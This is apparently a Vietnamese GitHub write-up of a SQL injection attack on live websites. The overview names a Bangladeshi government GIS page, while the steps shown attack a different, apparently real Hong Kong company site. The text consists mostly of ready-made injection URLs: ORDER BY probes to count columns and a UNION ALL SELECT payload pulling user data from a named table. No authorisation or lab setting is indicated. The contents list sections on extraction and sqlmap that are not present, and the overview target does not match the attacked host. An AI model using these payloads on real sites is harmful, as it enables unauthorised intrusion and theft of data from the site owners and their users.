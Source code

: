 # TỔNG QUAN # 

Kiểm tra trên web "BGISP" `http://www.gis.gov.bd/en/gis_file.php?id=9`


## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+1

![image](https://github.com/user-attachments/assets/a84108f8-bb63-4406-97da-9aacbbc9ec96)

http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+20

![image](https://github.com/user-attachments/assets/cdf0c4bd-a4b1-4b35-a12b-a3438af00070)

http://www.cmkoo.com.hk/en/news/news.php?id=28+ORDER+BY+16

![image](https://github.com/user-attachments/assets/d238751e-d552-4ec0-a288-b0470fc9d980)


## Kiểm tra database, version, user 

![image](https://github.com/user-attachments/assets/d160197b-a4a3-4077-8618-8ad9c1603151)

`http://www.cmkoo.com.hk/en/news/news.php?id=28+UNION+ALL+SELECT+1,2,3,4,user,6,7,8,9,10,11,12,13,14,15,16+from+user.cmkoo_com_hk`

![image](https://github.com/user-attachments/assets/c526f1a8-0a8e-4fd3-a7ce-45cd9828ccb4)
